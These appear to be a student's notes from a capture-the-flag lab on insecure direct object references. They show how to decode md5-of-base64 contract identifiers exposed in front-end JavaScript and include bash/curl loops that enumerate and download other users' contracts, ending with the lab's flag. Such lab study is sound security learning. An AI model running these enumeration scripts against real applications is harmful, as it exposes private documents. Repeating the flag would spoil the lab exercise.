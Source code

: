 # Bypassing Encoded References

- Burp Suite
- Intercept GET/POST requests
- Parameter :
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
--> appears to be hashing it in an md5 format
- Attempt to hash various values, like uid, username, filename :
echo -n 1 | md5sum
c4ca4238a0b923820dcc509a6f75849b -
- Burp Comparer and fuzz various values and then compare each to our hash to see if we find any matches

## Function Disclosure

Most modern web applications are developed using JavaScript frameworks, like Angular, React, or Vue.js

--> Web developers may make the mistake of performing sensitive functions on the front-end, which would expose them to attackers

function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}

- Analyze the code :
btoa(uid) : base64 encoded string of the uid variable

echo -n 1 | base64 -w 0 | md5sum
cdd96d3cc73d1dbdaffa03cc6cd7339b -

- Write a script to enumerate all contracts :

for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd

OR

- Use Burp Intruder

- Make a POST request

#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done

bash ./exploit.sh

## LAB

  <script>
    function downloadContract(uid) {
      window.location = `/download.php?contract=${encodeURIComponent(btoa(uid))}`;
    }
  </script>

      <ul class="pure-tree">
        <li class="pure-tree_link"><a href="javascript:downloadContract('1')" target="_self">Employment_contract.pdf</a></li>
      </ul>

GET /download.php?contract=MQ%3D%3D


echo -n 1 | base64 -w 0 | md5sum | tr -d ' -'
cdd96d3cc73d1dbdaffa03cc6cd7339b

echo -n '1' | base64
MQ==

curl http://94.237.55.163:30646//download.php?contract=MQ%3D%3D --output cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf


curl --get --data-urlencode "contract=MQ==" http://94.237.55.163:30646/download.php --output test.pdf

#!/bin/bash

for i in {1..20}; do
    for hash in $(echo -n $i | base64); do
        curl --get --data-urlencode "contract=$hash" http://94.237.55.163:30646/download.php --output test$i.pdf
    done
done

cat test20.pdf 
HTB{h45h1n6_1d5_w0n7_570p_m3}

